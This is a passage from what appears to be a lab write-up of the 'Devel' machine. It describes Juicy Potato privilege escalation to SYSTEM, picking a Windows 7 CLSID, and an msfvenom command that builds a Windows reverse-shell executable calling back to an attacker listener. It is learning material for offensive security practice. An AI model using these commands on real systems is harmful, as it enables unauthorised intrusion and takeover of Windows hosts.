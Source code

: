 ```
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
And a template to follow to use it:
```
Juicy.Potato.x86.exe -t * -p [Program] -l [NC listener port] -c [CLSID]
```
Typically, or well atleast in the case of Devel, you would want to set the program to be a reverse shell. And as for CLSID, well these are specific ids. Think of them as a SSN for processes. Pretty much we should select a CLSID that would impersonate something that would run as system to get system level priviliges. This can change depending on the OS of what we are using so we need to inventory that.
Sample output from Devel:
```
systeminfo                                                             
Host Name:                 DEVEL                           
OS Name:                   Microsoft Windows 7 Enterprise                     
OS Version:                6.1.7600 N/A Build 7600
```
So in the case we need a CLSID for a Windows 7 machine. 
Heres a list of CLSID for [Windows 7](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/)

All it takes is a quick google search for these CLSIDs.

### Msfvenom
Its late that I'm finally using this tool but better late than ever. So far from what I've seen, its a really powerful tool to make payloads. Heres the [bible](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
This sheet has many reverse shell payloads for many different OS. In the case for Devel, we needed x86 payloads. Here is the code snippet for what I ran on Devel when I called Juicy Potato.
Demo:
```console
┌──(root㉿kali)-[/home/kali/Documents/Devel]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > lmao.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
